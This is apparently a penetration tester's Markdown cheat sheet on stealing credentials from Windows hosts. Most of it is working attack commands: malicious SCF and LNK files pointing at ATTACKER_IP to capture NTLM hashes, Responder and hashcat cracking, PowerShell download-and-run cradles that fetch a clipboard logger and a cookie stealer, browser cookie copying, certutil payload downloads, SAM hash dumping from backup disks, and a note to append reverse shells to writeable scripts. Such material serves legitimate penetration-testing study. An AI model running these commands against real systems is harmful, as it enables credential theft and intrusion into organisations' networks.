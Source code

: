 # ✅ Interacting with Users & Pillaging (Cheat Sheet)

---

## 🎯 Quick Wins
- [ ] **Capture Network Traffic** → Wireshark / tcpdump / net-creds
- [ ] **Monitor Command Lines** → Detect creds in scheduled tasks
- [ ] **SCF / LNK Attack on File Shares** → Capture NTLM hashes
- [ ] **Clipboard Logging** → Capture copy-pasted passwords
- [ ] **Cookie Theft** → Firefox/Chrome SQLite DB + SharpChromium
- [ ] **Key Backup Targets** → .vhd, .vhdx, .vmdk for SAM/SYSTEM
- [ ] **Abuse Weak Permissions** → Writeable scripts in C:\Scripts
- [ ] **Living Off The Land Binaries (LOLBAS)** → certutil, rundll32
- [ ] **Backup Abuse** → Extract hashes or config files
- [ ] **Mimikatz / LaZagne** → Credential dump

---
## ✅ Check Netstat

```powershell
# check for interesting services\ports 
netstat -anot
```

---
## ✅ Public Exploits

> they are already in my tools

```c
https://github.com/sickn3ss/exploits/tree/master/CVE-2023-29360/x64/Release
https://github.com/sickn3ss/exploits/
```
## ✅ Network Traffic Capture
```powershell
# If Wireshark installed and Npcap not restricted
# Capture cleartext creds (FTP, HTTP)
# On attack machine
tcpdump -i eth0 -w capture.pcap
net-creds -i capture.pcap
```
## ✅ Monitor Process Command Lines
```c
# Detect creds passed via scheduled tasks or scripts
while($true){
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object $process $process2
}
```
> Example finding:
```c
net use T: \\sql02\backups /user:domain\sqlsvc My4dm1nP@s5w0Rd
```
## ✅ SCF / LNK File Attack for NTLM Hashes
```c
# Malicious SCF
[Shell]
Command=2
IconFile=\\ATTACKER_IP\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
> Run Responder:
```c
sudo responder -wrf -v -I tun0
```
> Crack NTLMv2 hash:
```c
hashcat -m 5600 hash.txt rockyou.txt
```
## ✅ Generate Malicious .LNK (PowerShell)
```c
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\ATTACKER_IP\@pwn.png"
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Save()
```
## ✅ Clipboard Logger
```c
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```
> Output example:
```c
https://portal.azure.com
Administrator@domain.com
Sup3rP@ssword123
```
## ✅ Cookie Theft (Firefox)
```c
# Copy SQLite DB
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```
> Extract Slack cookie:
```c
python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d
```
## ✅ Cookie Theft (Chrome)
```c
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"
```
## ✅ Pillaging – Interesting Locations

- [ ] Browser Data → Chrome/Firefox profiles
- [ ] Password Managers → KeePass, mRemoteNG (confCons.xml)
- [ ] Config Files → web.config, appsettings.json
- [ ] SSH Keys → id_rsa
- [ ] Backup Files → .vhd, .vhdx, .vmdk
## ✅ mRemoteNG Credential Decryption
```c
# Extract password
python3 mremoteng_decrypt.py -s "<ENCRYPTED_PASSWORD>"
# If master password exists
python3 mremoteng_decrypt.py -s "<ENCRYPTED_PASSWORD>" -p admin
```
## ✅ Mount Virtual Disks & Extract Hashes
```c
# Linux
guestmount -a disk.vmdk -i --ro /mnt/vmdk
guestmount --add backup.vhdx --ro /mnt/vhdx/ -m /dev/sda1

# Dump SAM & SYSTEM
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```
## ✅ LOLBAS: File Download via certutil
```c
certutil.exe -urlcache -split -f http://ATTACKER_IP/file.exe file.exe
```
> Encode/Decode:
```c
certutil.exe -encode input.txt encoded.txt
certutil.exe -decode encoded.txt output.txt
```
## ✅ CVE-2019-1388 Exploit

```c
- Old signed executable → hhupd.exe
- Run as Admin → Open Certificate → Click hyperlink → Browser as SYSTEM
- Breakout: Save As → Type C:\Windows\System32\cmd.exe
```
## ✅ Scheduled Task Enumeration
```c
# IN CMD
schtasks /query /fo LIST /v

# In Powershell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
## ✅ Abusing Writeable Scripts
```c
accesschk64.exe /accepteula -s -d C:\Scripts\
# Append reverse shell or beacon
```
## ✅ Mount & Extract Backup Systems
```c
- Backup software like restic, Veeam, Windows Backup
- Abuse backup creds (usually local admin on all systems)
- Restore snapshots → Extract SAM & SYSTEM → Dump hashes
```
## ✅ Key Tools

```
- Responder / Inveigh → Capture NTLM hashes
- net-creds → Extract creds from PCAP
- SharpChromium → Cookie theft
- Invoke-Clipboard → Clipboard monitoring
- PowerUp.ps1 / WinPEAS → PrivEsc checks
- secretsdump.py → Extract local hashes
```
